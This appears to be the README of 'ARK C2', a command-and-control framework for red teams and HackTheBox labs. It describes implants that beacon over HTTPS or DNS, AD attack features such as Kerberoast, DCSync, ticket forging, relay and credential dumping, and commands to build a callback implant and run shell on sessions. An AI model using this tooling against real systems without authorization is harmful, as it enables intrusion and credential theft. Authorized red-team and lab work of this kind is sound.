


# ARK

<p align="center">
  
</p>

**ARK C2 by Zypheron** — Speed · Stealth · Control

Lab-grade command-and-control for **authorized** offensive work: red team, owned labs, and HTB.

Teamserver and operator API are Go. Implants speak the same protobuf over HTTPS or DNS. **C is the engagement implant** (Windows PE and Linux). Go Windows remains the fallback when you need the full module set, DLL, or shellcode. **Go Linux is archived.**

The product name is **ARK**. The CLI is `ark`. Data lives in `~/.ark/`. Compatibility symlinks (`erebus`, `Erebus`) and a leftover protobuf package name (`erebus.c2`) are not the product name.

> Authorized testing and research only. You need explicit permission (or you own the systems). See [SECURITY.md](SECURITY.md) and [LICENSE](LICENSE).

---

<table>
<tr>
<td width="33%" valign="top">

**Status**

v0.1.0 · lab / research

Core loop works. Not a commercial product.

</td>
<td width="33%" valign="top">

**Prefer**

`ark teamserver` to keep C2 up

`generate --language c` on both OS (empty language defaults to C)

Host `ldap` / `smb` / `ad` / `adcs` before an implant

</td>
<td width="33%" valign="top">

**Do not claim**

EDR-evasive by default

Native PKINIT UnPAC or full ADCS ESC2–11

Enterprise support

</td>
</tr>
</table>

---

## Pieces

<table>
<tr>
<td width="50%" valign="top">

**Teamserver**

Go. gRPC on `127.0.0.1:50051` (mTLS). HTTPS and DNS listeners. Fresh HTTPS port is **1750**. SQLite at `~/.ark/ark.db`. High-risk `ExecuteTask` waits on the [approval gate](server/approval/).

</td>
<td width="50%" valign="top">

**Operator**

Unified CLI: **`ark`**. Interactive console, REPL (`ark operator`), and one-shot `ark op`. Dual seats (`operator` + `approver` certs) for approve/deny.

</td>
</tr>
<tr>
<td width="50%" valign="top">

**Implant**

Beacon, HMAC-SHA256 identity, AES-256-GCM sessions. **C** (`cimplant/`) is primary on Windows **and** Linux. **Go** (`implant/`) is Windows-only fallback.

</td>
<td width="50%" valign="top">

**Host tools** (no session)

`ark inbound` · `ldap` · `smb` · `ad` · `adcs` · `rbcd` · `kerberos` · `winrm` · `mssql` · `mqtt` · `relay`

Same idea as a pre-implant kit. See [OPERATOR_PRE_IMPLANT.md](docs/OPERATOR_PRE_IMPLANT.md).

</td>
</tr>
</table>



Implant traffic: listener → session → next beacon. Operator tasks: gRPC → approval (if high-risk) → queue.

---

## What works

<table>
<tr>
<td width="50%" valign="top">

**C2 loop**

Register / beacon / task / result. HTTPS (silent 404 on auth fail). DNS TXT + base32 chunks. Sleep/jitter from build flags.

</td>
<td width="50%" valign="top">

**On the implant**

Shell, files (path-jailed), process, ifconfig, portscan. C and Go AD: LDAP enum, Kerberoast, AS-REP (lab-verify still open on C). WinRM PTH. Cloud harvest. Windows post-ex on Go. Linux C reverse SOCKS.

</td>
</tr>
<tr>
<td width="50%" valign="top">

**On the operator host**

LDAP (LDAPS first, dangling CA templates). SMB list/get (NTLM or Kerberos ticket). Password reset, add-computer, RBCD, shadow KeyCredential+PFX, dMSA, DCSync. AES asktgt / S4U / keylist / golden / silver. Dangling ESC1 `ark adcs` (template + WCCE req). WinRM/MSSQL wrappers. MQTT and HTTP NTLM relay.

</td>
<td width="50%" valign="top">

**Labs exercised**

Support, Logging, Ghostlink, DanglingTree, FireFlow, DarkZero, Garfield, and others under `reports/htb-*/`. Skills: `ark-htb`, `htb-pentest`.

</td>
</tr>
</table>

### Honest gaps

| Area | Today |
| --- | --- |
| C implant | Windows PE + Linux primary. Kerberoast/AS-REP are real (no placeholder hashes); live GOAD/HTB verify still open. Windows C reverse SOCKS is a fail-closed stub. |
| ADCS | Dangling ESC1 template create / grant / req / auto: `ark adcs`. Native PKINIT UnPAC (`ark kerberos pkinit`) is **not** assembled — last hop stays Certipy. ESC2–11 out of scope. |
| Tickets / RBCD / shadow | Host CLI shipped (RBCD, S4U AES, shadow auto → PFX, dMSA, keylist). Native PA-PK-AS-REQ still incomplete. |
| `ark serve` | Teamserver + operator REPL. Stdin/REPL EOF does **not** stop C2. Prefer `ark teamserver` as the daemon. |
| Default HTTPS port | Fresh config listens on **1750** (Fedora 1714–1764). Existing `~/.ark/server.yaml` is not rewritten. `inbound status` flags firewalld mismatch. |
| PsExec | C Windows: ADMIN$ + SCM with a password (no hash/PTH). Go from a non-Windows implant: stage over SMB, service create incomplete. |
| Go Linux | Archived. `make implant` and `generate --language go --os linux` fail closed. |
| OPSEC | No malleable profiles, no sleep mask, no multi-server. |

---

## How to use

Authorized lab only. Needs Go 1.25 (`go.mod`) and `make`. C PE: mingw or `scripts/setup_c_toolchain.sh`.

<table>
<tr>
<td width="50%" valign="top">

**1 · Build**

```bash
make ark
# optional: make install   →  ~/.local/bin/ark
```

</td>
<td width="50%" valign="top">

**2 · Start C2**

```bash
./build/ark teamserver
```

Leave this terminal open. `ark serve` also works (REPL EOF no longer kills C2); `teamserver` is the daemon-only path.

Fresh config listens on **1750**. Many labs still use **8443** in `~/.ark/server.yaml`.

</td>
</tr>
<tr>
<td width="50%" valign="top">

**3 · Seats + operator**

```bash
# other terminal
./build/ark certs seats
./build/ark operator
```

Or one-shots: `ark op sessions`. Dual certs (`operator` + `approver`) are how high-risk tasks get approved.

</td>
<td width="50%" valign="top">

**4 · Host recon first**

No implant yet. Secrets go in files (`--pass-file`), never bash `"…$…"`.

```bash
ark inbound status
ark smb shares --host <DC> --anon
ark ldap enum --dc <DC> --domain DOM \
  --user u --pass-file ./p --type interesting
ark ldap dangling --dc <DC> --domain DOM \
  --user u --pass-file ./p
ark kerberos skew --dc <DC>
```

</td>
</tr>
<tr>
<td width="50%" valign="top">

**5 · Build an implant**

Callback must be reachable from the target (`tun0` on HTB). `op generate` registers the PSK. Empty `--language` is **c**.

```bash
ark op generate --os windows --language c \
  --callback https://<you>:1750 --out implant.exe
```

Linux: `--os linux`. Bare `make implant-c` / `implant-c-linux` does **not** register the HMAC secret — use `op generate`, `inbound drop`, or `ark op register-secret`.

</td>
<td width="50%" valign="top">

**6 · Session**

Drop the binary (WinRM/SMB/ATSVC — WinRM is often filtered). Then:

```text
ark op sessions
ark op shell -- whoami
```

In the REPL: `sessions` → `use <id>` → `shell whoami`.

High-risk tasks sit in `pending` until the **approver** seat runs `approve <id>`.

</td>
</tr>
</table>

**Leave clean.** Kill the implant, stop `teamserver`, do not leave listeners or lab artifacts on a reused box.

More: [AD cookbook](docs/AD_ENGAGEMENT.md) · [host tools](docs/OPERATOR_PRE_IMPLANT.md) · [inbound / 404 reasons](docs/OPERATOR_INBOUND.md).

---

## Operator surface

<table>
<tr>
<td width="50%" valign="top">

**Session**

`sessions` `use` `shell` `upload` `download` `ps` `kill` `ifconfig` `portscan` `sleep` `loot` `events` `listeners`

</td>
<td width="50%" valign="top">

**AD / lateral**

`ldap-enum` `kerberoast` `asreproast` `creds-dump` `lateral winrm\|wmi\|psexec` `smb` (implant)  
`ldap` `host-smb` `ad` `adcs` `rbcd` `kerberos` `winrm` `mssql` (host)

</td>
</tr>
<tr>
<td width="50%" valign="top">

**Build / approve**

`generate` `register-secret` `pending` `approve` `deny`  
`ark op generate` · `ark op shell` (auto-approve with both seats)

</td>
<td width="50%" valign="top">

**High-risk**

creds dump, lateral, persist, inject, PE load, privesc — block until a **different** mTLS CN approves.

</td>
</tr>
</table>

Wire: implant `c2.proto` (HMAC + AES-GCM). Operator `api.proto` (mTLS). Config: `~/.ark/server.yaml`.

---

## Build and test

```bash
make proto ark             # CLI
make implant-c             # Windows C (primary)
make implant-c-linux       # Linux C (primary)
make implant-win           # Go Windows fallback
bash scripts/smoke_test.sh
go test ./server/e2e/... -v -count=1
```

`make implant` (Go Linux) is archived and fails. `make all` still depends on that target — use the list above.

---

## Docs

| | |
| --- | --- |
| HTB queue | [docs/HTB_NEXT_RUNBOOK.md](docs/HTB_NEXT_RUNBOOK.md) |
| AD cookbook | [docs/AD_ENGAGEMENT.md](docs/AD_ENGAGEMENT.md) |
| Host tools / inbound | [docs/OPERATOR_PRE_IMPLANT.md](docs/OPERATOR_PRE_IMPLANT.md) · [docs/OPERATOR_INBOUND.md](docs/OPERATOR_INBOUND.md) |
| Implant plan | [docs/IMPLANT_ROADMAP.md](docs/IMPLANT_ROADMAP.md) |
| Skills | `.grok/skills/ark-htb` · `.claude/skills/ark-htb` |

---

[MIT](LICENSE)
